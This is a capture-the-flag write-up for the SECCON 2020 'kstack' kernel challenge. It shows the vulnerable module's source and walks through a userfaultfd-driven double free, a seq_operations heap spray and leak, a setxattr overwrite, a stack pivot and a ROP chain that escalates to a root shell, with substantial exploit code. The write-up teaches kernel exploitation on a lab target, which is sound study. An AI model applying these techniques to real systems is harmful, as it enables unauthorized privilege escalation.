


# Seccon 2020 Kstack

*tag: userfaultfd, setxattr, seq_operations, ROP*

## vulnerability

​	The vulnerability lies in a kernel module names *kstack.ko*. The challenge provides us the source code of the module,

```c
#include <linux/module.h>
#include <linux/init.h>
#include <linux/proc_fs.h>
#include <linux/seq_file.h>
#include <linux/sched.h>
#include <linux/uaccess.h>
#include <linux/slab.h>
#include "kstack.h"

static long proc_ioctl(struct file*, unsigned int, unsigned long);

struct proc_dir_entry *proc_file_entry;
static const struct file_operations proc_file_fops = {
  .owner = THIS_MODULE,
  .unlocked_ioctl = proc_ioctl
};

Element *head = NULL;

static long proc_ioctl(struct file *filp, unsigned int cmd, unsigned long arg)
{
  Element *tmp, *prev;
  int pid = task_tgid_nr(current);
  switch(cmd) {
  case CMD_PUSH:
    tmp = kmalloc(sizeof(Element), GFP_KERNEL);
    tmp->owner = pid;
    tmp->fd = head;
    head = tmp;
    if (copy_from_user((void*)&tmp->value, (void*)arg, sizeof(unsigned long))) {
      head = tmp->fd;
      kfree(tmp);
      return -EINVAL;
    }
    break;
    
  case CMD_POP:
    for(tmp = head, prev = NULL; tmp != NULL; prev = tmp, tmp = tmp->fd) {
      if (tmp->owner == pid) {
        if (copy_to_user((void*)arg, (void*)&tmp->value, sizeof(unsigned long)))
          return -EINVAL;
        if (prev) {
          prev->fd = tmp->fd;
        } else {
          head = tmp->fd;
        }
        kfree(tmp);
        break;
      }
      if (tmp->fd == NULL) return -EINVAL;
    }
    break;
  }
  return 0;
}

static int proc_init(void) {
  proc_file_entry = proc_create("stack", 0, NULL, &proc_file_fops);
  if (proc_file_entry == NULL) return -ENOMEM;
  return 0;
}

static void proc_exit(void) {
  remove_proc_entry("stack", NULL);
}

module_init(proc_init);
module_exit(proc_exit);

MODULE_LICENSE("GPL");
MODULE_AUTHOR("ptr-yudai");
MODULE_DESCRIPTION("SECCON 2020 - kstack");
```

​	Its header file

```c
#ifndef PROC_KSTACK
#define PROC_KSTACK

#define CMD_PUSH 0x57ac0001
#define CMD_POP  0x57ac0002

typedef struct _Element {
  int owner;
  unsigned long value;
  struct _Element *fd;
} Element;

#endif
```


​	The vulnerability is trivial: the *push* and *pop* operation are not locked, thus it's easy to cause a double free by pop a node twice. An attacker may issue a *pop* operation, then block the kernel using *userfaultfd*. In the *userfaultfd* handler we do a *pop* again, resulting in the chunk being freed twice.


## exploitation1: *seq_operations* & *setxattr* & ROP

​	from top level, we 

1. leak the kernel load base
2. cause a double free
3. overwrite a *seq_operations* struct to hijack kernel stack to user space
4. perform privilege escalation by ROP and ret2user to prompt a root shell


### 1. leak kernel load base

#### method1: leak by *seq_operations*

​	The *copy_from_user()* operation may be blocked by *userfaultfd*. In the *userfaultfd* hander thread we do a *pop* operation, the chunk's *data* field may contain some information from last *kmalloc*, which was not erased when the chunk is freed. We will utilize this to leak the kernel load base address.

> kmalloc() allocates chunks size in the order of exponential of 2, which means that a request to kmalloc() a chunk whoes size is between 16 bytes and 32 bytes will be served in the same free chunk pool

​	First we spray the kernel with *seq_operations*. When we open the file */proc/self/stat*, a *seq_operations* struct is allocated and initialized. The struct is defined in *include/linux/seq_file.h*

```c
struct seq_operations {
	void * (*start) (struct seq_file *m, loff_t *pos);
	void (*stop) (struct seq_file *m, void *v);
	void * (*next) (struct seq_file *m, void *v, loff_t *pos);
	int (*show) (struct seq_file *m, void *v);
};
```

​	The struct is initialized by *single_open()* defined in *fs/seq_file.c*

```c
int single_open(struct file *file, int (*show)(struct seq_file *, void *),
		void *data)
{
	struct seq_operations *op = kmalloc(sizeof(*op), GFP_KERNEL_ACCOUNT);
	int res = -ENOMEM;

	if (op) {
		op->start = single_start;
		op->next = single_next;
		op->stop = single_stop;
		op->show = show;
		res = seq_open(file, op);
		if (!res)
			((struct seq_file *)file->private_data)->private = data;
		else
			kfree(op);
	}
	return res;
}
```

the call stack will be like


in *seq_open()*, a *seq_operations* struct will be allocated and initialized as


​	The 4 function pointers in *struct seq_operations* are all exported functions, which have a fixed offset from the kernel load address. We do the spray by 

```c
int spray[0x100];
for(int i=0;i<0x100;i++){   // spray the kernel heap
    spray[i] = open("/proc/self/stat", O_RDONLY);
    if(spray[i] == -1) ErrExit("[-] open /proc/self/stat failed");
}
for(int i=0;i<0x100;i++){
    close(spray[i]);
}
```

​	After the spray, the kernel will have a bunch of **0x20** chunk containing un-erased value of *seq_operations*. We do a push then block the *copy_from_user* by *userfaultfd* to prevent overwriting the un-erased value into the chunk. Then we do a pop in the *userfaultfd* handler thread to get the un-erased value, which will be address of *single_close*. With the value we are able to calculate the load address of the kernel.


#### method2: leak by system V IPC


###  2.cause a double free

​	There a alternative ways to cause a double free, I will provide a simple one here.

​	We register a *userfaultfd* region, and do a *pop* to it. The *copy_to_user()* in *pop* will be stoped and execute our *userfaultfd* handler function. In the handler function we do a pop again, then we handle the page fault normally. When the handler function returns the *pop* will be freed again, causing a double free chunk in the kernel. 

​	In main fucntion we do

```c
    // double free
    push(&dummy_value);
    pop(hang_mem);
```

​	And in userfaultfd function we do 

```c
    pop(&leak);
    puts("[*] cause a double-free");
```

​	The above code should place the chunk at the "free list" twice in the kernel.


### 3.overwrite a *seq_operations* struct: setxattr

​	In last step we caused a double freed chunk. Now we place a *struct seq_operations* to it by opening the sequence file */proc/self/stat*. Since the chunk is double-freed, if we allocate a 32 bytes chunk now we will get it again, giving us the oppurtunity to overwrite the function pointers in the struct.

​	We can use *setxattr* to get the chunk again and write data to it. Here comes the tricky part: we put the data we are going to write to a mmap region whose layout will be



​	We use *setxattr* to allocate a 32 bytes chunk and start copy at where I denote "start copy". The first three value will be copied successful while the 4th value will cause a page fault. We will handle the page fault in our userfaultfd handler.

​	By doing so, the chunk allocated by *setxattr* will not be immediately freed, however, it will give us a window to operat on something while we still hold the chunk. As mentioned before, the chunk taken by *struct seq_operations* is a double freed one, and *setxattr* takes it again and write something to it. The "something" is under our control and we will let it be a gadget. Thus when function pointers in the *seq_operations* is invoked the control flow will go into our gadget.

​	The gadget will be write into the *struct seq_operations* will be a stack pivot gadget. Since the challenge has no *smap*, we will be able to hijack the kernel stack to user space and place a rop chain there to control the RIP. 

​	The kernel is a big binary and there are all kinds of gadgets in it, including the type

```assembly
mov esp, 0xSOMEUSERSPACEADDR ; ret
```

we can simply find one



​	

​	Let's take this line for an example. The next thing we will do is to *mmap()* this page to place our rop chain. When we issue a read to the */proc/self/stat* we just opened, the control flow goes into our gadget to hijack the kernel stack to this memory region in user space, where our rop chain lies in.

​	The implementation wil be like

```c
// in main
	*(unsigned long*)(hang_mem - 0x8) = kernel_load_base + STACK_PIVOT;
    *(unsigned long*)(hang_mem - 0x10) = kernel_load_base + STACK_PIVOT;
    *(unsigned long*)(hang_mem - 0x18) = kernel_load_base + STACK_PIVOT;
    setxattr("/exp", "dummy", hang_mem-0x18, 0x20, XATTR_CREATE);

// in userfaultfd handler
    read(victim_fd, &leak, 1);
    while(1);
```


### 4.place our rop chain in user space

​	We will need to place our rop chain in the memory region where the kernel stack will be hijacked to before we issue a read() to the */proc/self/stat*. The rop chain is trivial

```c
    unsigned long* fstack = mmap((void*)0x83cb8000, 0x1000, PROT_WRITE|PROT_READ, MAP_ANON|MAP_PRIVATE, -1, 0);
    if(fstack==MAP_FAILED || (unsigned long)fstack!=0x83cb8000) ErrExit("[-] mmap() failed");
    unsigned long* rop = (unsigned long*)0x83cb89ca;

    *rop++ = kernel_load_base + POPRDIRET;
    *rop++ = 0;
    *rop++ = kernel_load_base + PREPARECRED;
    *rop++ = kernel_load_base + POPRCXRET;
    *rop++ = 0;
    *rop++ = kernel_load_base + MOVRDIRAXREPPOPRET;
    *rop++ = 0;
    *rop++ = kernel_load_base + COMMITCRED;
    *rop++ = kernel_load_base + ROPUSERMOD;		// swapgs_restore_regs_and_return_to_usermode
    *rop++ = 0;
    *rop++ = 0;
    *rop++ = (unsigned long)win;
    *rop++ = state.cs;
    *rop++ = state.rflag;
    *rop++ = state.sp;
    *rop++ = state.ss;
```

​	The "win" function will be

```c
int win(void){
    close(victim_fd);
    puts("[*] win");
    // hang();
    system("/bin/sh");
    return 1;
}
```

